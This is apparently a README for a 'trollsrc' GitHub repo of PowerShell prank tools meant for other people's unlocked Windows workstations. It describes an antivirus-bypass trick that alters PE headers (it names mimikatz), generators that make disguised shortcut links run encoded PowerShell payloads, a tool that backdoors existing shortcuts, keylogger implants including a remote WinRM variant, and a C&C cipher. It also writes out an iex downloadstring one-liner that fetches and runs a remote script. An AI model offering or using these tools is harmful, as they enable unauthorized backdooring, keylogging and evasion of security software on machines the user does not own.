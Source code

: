 # trollsrc
PoCs to share for trolling
## WARNING, THIS REPO IS FOR ADVANCED PERSISTENT TROLLS ONLY
These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\Invoke-Dickfuscation.ps1 -target C:\mimikatz.exe
* Takes a target binary
* Bypasses most AV by overwriting the 'This program cannot be run in DOS mode' PE bytes with an ASCII cock

## .\Invoke-DickBomb.ps1 -target 8.8.8.8 -port 53 -count 3
* Sends a naughty message several times to a given socket.
* Leave some fun evidence for the DFIR guys :D

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an optional argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")

## .\bxor.ps1
* Example code for BXOR rotating-key cipher. Can be bolted onto simple TCP or HTTP C&C connections
